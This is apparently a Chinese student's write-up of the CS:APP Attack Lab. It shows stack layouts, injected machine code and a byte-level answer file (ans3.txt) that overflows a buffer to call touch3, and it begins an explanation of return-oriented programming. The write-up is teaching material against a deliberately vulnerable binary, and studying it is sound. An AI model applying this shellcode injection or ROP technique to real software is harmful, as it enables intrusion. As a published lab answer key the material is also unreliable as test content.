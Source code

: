 注入后的栈帧

> getbuf返回地址	   55 61 dc 78
> rsp + 32			01 01 01 01 01 01 01 01
> rsp + 24			01 01 01 01 01 01 01 01
> rsp + 16			01 01 01 01 01 01 01 01
> rsp + 8			  01 01 01 c3  00 40 17 ec
> rsp 				68 59 b9 97 fa c7 c7 48

## phase 3

 ![ 2024-11-25 194841.png](https://s2.loli.net/2024/11/25/2ZCn69yFOeSpdND.png)

 ![ 2024-11-25 194847.png](https://s2.loli.net/2024/11/25/6xoG5lIpY7WbLrd.png)

和上面一样，让`Ctarget`执行`touch3`代码，这次传入字符数组的首地址。但不能想上一题一样把字符串放入字符数组中，因为`hexmatch`函数会把`buf`中的字节随机化，通过打断点得到其栈顶地址是 `0x5561dca0` ，可以把字符串数组地址存放在`0x5561dca8`，下面得到对应二进制指令。

```assembly
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi	# 存放数组指针
   7:	68 fa 18 40 00       	pushq  $0x4018fa		# 将touch2地址压入栈中
   c:	c3                   	retq
```

根据 `ASCII` 码，这里的 `cookie` 值 `0x59b997fa`再加上C语言字符末尾的`\0` 就是 `35 39 62 39 39 37 66 61 00`

ans3.txt

> 48 c7 c7 a8 dc 61 55 
> 68 fa 18 40 00 
> c3 
> 01 01 01
> 01 01 01 01 01 01 01 01
> 01 01 01 01 01 01 01 01
> 01 01 01 01 01 01 01 01
> 78 dc 61 55 00 00 00 00
> 35 39 62 39 39 37 66 61 00

#  Return-Oriented Programming

对程序Rtarget进行代码注射攻击比CTARGET要困难得多，
因为它使用两种技术来阻止这种攻击：

- 它使用随机化，以使堆栈位置与另一个运行之间的不同之处。这使得无法确定注射代码的位置。
- 它标记了将堆栈保存的内存部分是不可删除的，因此即使您可以设置程序对抗注射代码的开始，该程序将在细分故障时失败。

**ROP 的核心思想：**在启用了 DEP 的环境下，程序的堆栈和数据段是不可执行的。ROP 不需要注入新的代码，而是利用已有的代码片段。ROP 利用程序内的已存在的指令序列。这些指令序列以 `ret` 结尾，从而可以链接多个片段来实现复杂功能。攻击者构造一个伪堆栈帧链表，每个伪帧指向一个 *gadget* 的地址，并传递控制流到这些指令序列。

 ![ 2024-11-25 210434.png](https://s2.loli.net/2024/11/25/zEe1CJBdA2UkiuQ.png)

![](https://s2.loli.net/2024/11/25/Wiu3epEkfz7PVar.png)

RET：由单个字节0xC3编码。
